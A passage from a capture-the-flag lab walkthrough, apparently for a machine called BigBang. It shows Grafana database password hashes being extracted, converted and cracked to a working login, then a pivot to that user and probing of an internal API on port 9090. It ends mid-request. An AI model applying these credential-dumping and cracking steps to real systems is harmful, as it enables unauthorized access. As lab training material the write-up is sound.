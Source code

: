 `/opt/data/grafana.db`

transfering it over to our host and checking sqlite we find some credentials:
```sql
sqlite> select login,password,salt from user;
admin|441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9ba6bd47d70edb7421b05d9706ba6147cb71973a34|CFn7zMsQpf
developer|7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960|4umebBJucv
```
using `grafana2hashcat` to transform the hashes:
```bash
sha256:10000:Q0ZuN3pNc1FwZg==:RBpxW9eI6SgXC+eVSxfLGd6DWi3t/ezoxlMnyx2bpr1H1w7bdCGwXZcGumFHy3GXOjQ=
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=
```
After cracking them we get a hit for `developer`'s password:
```bash
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=:bigbang
```

So we have the following credentials `developer`:`bigbang` which we can use to pivot to that user.

# Root
One other port was interesting which was `9090`
Forwarded the port and looking at it seems, it seemed empty; however, fuzzing for directories found: `/login` and `/command`
If we check `developer`'s home page, inside the `satelite-app.apk/classes.dex` we find the same endpoints:
```bash
strings classes.dex | grep 9090
#http://app.bigbang.htb:9090/command
!http://app.bigbang.htb:9090/login
```
we see:
```md
# Method Not Allowed

The method is not allowed for the requested URL.
```
for both requests which suggests that a `POST` or other request method is needed, attempting this we get:
```http
HTTP/1.1 415 UNSUPPORTED MEDIA TYPE
Server: Werkzeug/3.0.3 Python/3.10.12
Date: Mon, 03 Feb 2025 09:29:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: close

<!doctype html>
<html lang=en>
<title>415 Unsupported Media Type</title>
<h1>Unsupported Media Type</h1>
<p>Did not attempt to load JSON data because the request Content-Type was not &#39;application/json&#39;.</p>
```
Sending a request with blank `json` data:
```bash
curl http://localhost:9090/login -X POST -s -H "Content-Type: application/json" -d "{}"
{"error":"Missing username or password"}
```
Sending the request with developer's username and password:
```http
POST /login HTTP/1.1
Host: localhost:9090
```